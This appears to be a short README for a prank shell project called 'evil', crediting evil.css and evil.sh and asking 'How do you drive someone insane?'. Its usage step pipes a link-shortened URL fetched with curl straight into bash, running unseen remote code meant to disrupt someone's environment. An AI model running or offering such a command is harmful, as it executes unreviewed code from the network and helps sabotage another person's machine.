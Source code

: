 # evil
How do you drive someone insane?

## Usage

```
curl -s "https://goo.gl/J78oig" | bash /dev/stdin 
```

## Credit
https://github.com/tlrobinson/evil.css

https://github.com/mathiasbynens/evil.sh

## Disclaimer
I'm not responsible for any evil caused by this script. Public domain.
